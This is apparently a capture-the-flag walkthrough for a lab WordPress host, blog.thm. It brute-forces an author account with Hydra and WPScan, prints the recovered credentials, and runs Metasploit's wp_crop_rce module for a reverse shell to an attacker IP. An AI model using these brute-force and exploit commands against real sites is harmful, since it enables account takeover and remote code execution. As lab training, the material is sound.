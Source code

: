 > There is a vulnerability called [WordPress Core 5.0.0 - Crop-image Shell Upload](https://www.exploit-db.com/exploits/46662)
>
> _This module exploits a path traversal and a local file inclusion vulnerability on WordPress versions 5.0.0 and <= 4.9.8._\
> _The crop-image function allows a user, with at least author privileges,_\
> _to resize an image and perform a path traversal by changing the \_wp\_attached\_file reference during the upload._\
> _The second part of the exploit will include this image in the current theme by changing the \_wp\_page\_template attribute when creating a post._

Since Karen Wheeler has author access to the blog, brute force the user `kwheel`.

Navigate to `http://blog.thm/wp-login.php` and try a password with user `kwheel`. Copy the HTTP POST request in raw format, it is necessary for the `Hydra` command.

```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.54.35%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V

# Third string is the test condition, F: = test for failure. String got from the HTTP response.

# WPScan
echo -e 'kwheel'> user.txt
wpscan --url http://blog.thm -P /usr/share/wordlists/rockyou.txt -U user.txt -t 75
```

![](.gitbook/assets/image-20230515121134836.png)

> 📌 `kwheeler`:`cutiepie1`

***

## Exploitation

Use Metasploit with module `exploit/multi/http/wp_crop_rce`

```bash
metasploit -q

setg RHOSTS blog.thm
setg RHOST blog.thm
use exploit/multi/http/wp_crop_rce
set LHOST 10.18.65.48
set USERNAME kwheel
set PASSWORD cutiepie1
run
```
